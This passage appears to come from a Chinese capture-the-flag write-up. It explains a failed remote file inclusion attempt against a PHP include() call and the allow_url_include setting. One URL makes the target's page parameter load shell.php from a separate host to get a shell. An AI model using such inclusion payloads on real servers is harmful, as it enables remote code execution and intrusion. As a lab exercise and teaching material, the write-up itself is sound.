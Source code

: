 然后利用远程操作漏洞直接运行这个php

```
http://61.147.171.105:57861/index.php?page=http://192.168.213.129/shell.php
```

但是为什么不行呢？

因为这是对php太想当然了,审计代码得知虽然这里由include函数执行的php文件，但是一般的服务器都会禁止include执行带有url的命令，不然直接远程弹shell，什么服务器不能打？

### 远程文件包含漏洞

php.ini的配置选项allow_url_include为On的话，文件包含函数是可以加载远程文件的，这一道题不适用
